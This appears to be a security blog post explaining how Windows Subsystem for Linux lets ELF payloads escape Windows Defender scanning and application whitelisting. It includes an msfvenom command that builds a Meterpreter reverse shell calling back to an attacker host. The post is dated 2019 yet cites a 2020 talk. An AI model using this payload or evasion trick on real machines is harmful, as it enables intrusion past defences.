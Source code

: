 ```yaml
---
title: Bypassing Windows Defender with the Windows Subsystem for Linux!
date: 2019-01-16
draft: false
description: Using Windows Subsystem for Linux to Bypass Windows Defender
---
```


After watching BHIS’s Sacred Cash Cow Tipping 2020 I was inspired to try out a few of the techniques BHIS demoed, and this is a pretty fun and odd one.

There’s a few issues with WSL that make it a really poor choice for hacking without some configurations. The interesting one here is that WSL **does not use VHDs or emulate linux filesystems**, in fact, you can navigate to `%AppData%/Local/Packages/$LinuxDistro/LocalState/rootfs` and interact with the entire filesystem.

This also means that every file you make/drop to WSL is scanned by Windows Defender. Don’t even try to install metasploit.

However, as BHIS points out, elf files are not scanned by Defender. So to test this, if you fire up a normal metasploit session and do a quick `msfvenom -f elf -p linux/x64/meterpreter_reverse_tcp LHOST=$IP LPORT=4444 > payload.elf` you can simply drop it to disk and run it through WSL. A shell comes back, no questions asked.

This is pretty cool and exciting and all, but there’s a few drawbacks. The first issue is that since you’re running from a linux payload and from within WSL, you can’t use typical metasploit windows goodies like priv and kiwi without first pivoting.

The other issue is that this technique has a lot of preconditions. You need to first have initial access obviously, but you also need the target to have WSL installed, with a linux distribution installed. This is not most workstations. Installing a linux distro into WSL requires you to first enable the WSL feature in Windows, then restart the machine, and finally install the distro of your choice. Steps 1 and 3 both require administrative privileges by default, so I don’t see a practical use-case unless you can somehow install WSL without admin or the machine is preconfigured.

It’s a very neat trick though, and runs all processes through WSL, which allows you to bypass application whitelisting as well.